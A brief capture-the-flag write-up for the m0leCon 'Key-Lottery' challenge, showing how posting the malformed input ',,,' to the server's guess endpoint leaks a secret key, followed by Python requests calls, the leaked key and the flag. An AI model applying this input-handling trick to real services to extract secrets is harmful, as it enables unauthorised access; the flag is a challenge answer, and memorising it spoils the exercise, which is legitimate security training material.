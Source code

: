 # Key-Lottery

## Writeup

We are given a server that asks us to guess a random string of length 32. If supply it a empty list that wouldn't throw an error during parsing before being converted to a set like ',,,', it will print us key_set, that wasn't reasigned yet and that containts the random string we were looking for.

```python
In [1]: import requests

In [2]: print(requests.post("http://key-lottery.challs.m0lecon.it/guess", data={"keys" : ",,,"}).text)
got empty key set: {'p1c4XEM2yDQwzCjtYco2tj6toB1A2KXT'}

In [3]: print(requests.post("http://key-lottery.challs.m0lecon.it/guess", data={"keys" : "p1c4XEM2yDQwzCjtYco2tj6toB1A2KXT"}).text)
{"p1c4XEM2yDQwzCjtYco2tj6toB1A2KXT":"ptm{u_guessed_it_alright_mate}"}
```

## flag
ptm{u_guessed_it_alright_mate}
